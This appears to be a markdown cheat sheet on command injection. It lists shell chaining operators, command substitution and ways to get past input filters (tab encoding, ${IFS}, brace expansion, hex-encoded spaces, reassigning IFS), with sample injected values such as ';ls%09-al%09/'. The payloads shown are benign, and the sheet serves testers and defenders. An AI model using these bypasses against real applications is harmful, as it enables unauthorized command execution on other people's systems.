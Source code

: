 # Command Injection

> Command injection allows attackers to execute arbitrary commands in a vulnerable application.

## Chaining commmands
1. ;
	- Execute command by command, may not work if the first command doesn't terminate
2. &
	- Executes the first command in the background and the second in the foreground
3. |
	- Pipes output of first command into second (may cause errors)
4. && and ||
	- AND gate and OR gate; runs second command if first command succeeds or fails respectively

## Run command in command
```bash
ping $(ls)
ping `ls`
```

## Filter bypass
### Space 
Tabs can be substitute for spaces
```bash
;ls%09-al%09/
```

## Linux

### space == ${IFS}
eg.
```bash
echo${IFS}Hello${IFS}World

Hello World
```

### Bash brace expansion
```bash
{echo,hello,world}
```

### Command parameters in env var (encoded spaces as hex value)
```bash
CMD=$'\x20hello\x20world';echo$CMD
```

## Bash 
### Change IFS character
```bash
IFS=,;`cat<<<uname,-a`

IFS=.;`cat<<<echo.hello`
```
*<<< passes the output of the following command (or string) to the standard input of the preceding one*

*IFS can be any character that will not interfere with the proper running of the program*

*Does not work like this: IFS=,;echo,hello,world*
